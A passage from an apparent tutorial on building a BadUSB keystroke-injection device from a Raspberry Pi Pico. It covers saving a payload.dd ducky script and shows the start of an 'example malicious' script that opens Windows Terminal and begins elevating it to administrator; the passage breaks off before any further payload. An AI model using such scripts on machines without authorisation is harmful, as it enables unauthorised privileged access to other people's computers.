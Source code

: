 <figure><img src="../../../attachments/Screenshot 2023-10-02 113641.png" alt=""><figcaption></figcaption></figure>

And save it as `payload.dd` in pico drive.

Now disconnect and reconnect the pico to test if it is working or not. If it is working it will open notepad and type `Hello World!` in it.

10. Now you can write your own ducky script inside the `payload.dd` file and run it on any system.

**Note: -** After saving the ducky script in payload.dd it will execute it immediately on connected system. So keep that in mind before writing the ducky script.

`Hello World!` **Demo**:

[https://vimeo.com/870229586?share=copy](https://vimeo.com/870229586?share=copy)

**Example malicious ducky script:**

[https://vimeo.com/870230398?share=copy](https://vimeo.com/870230398?share=copy)

Script: -

`REM TO CLOSE OPENED FILE EXPLORER WE USE ALT F4`

`ALT F4`&#x20;

`DELAY 500`

`GUI r`

`DELAY 500`

`STRING wt`

`REM TO OPEN AS ADMINISTRATOR USING CONTROL SHIFT ENTER`&#x20;
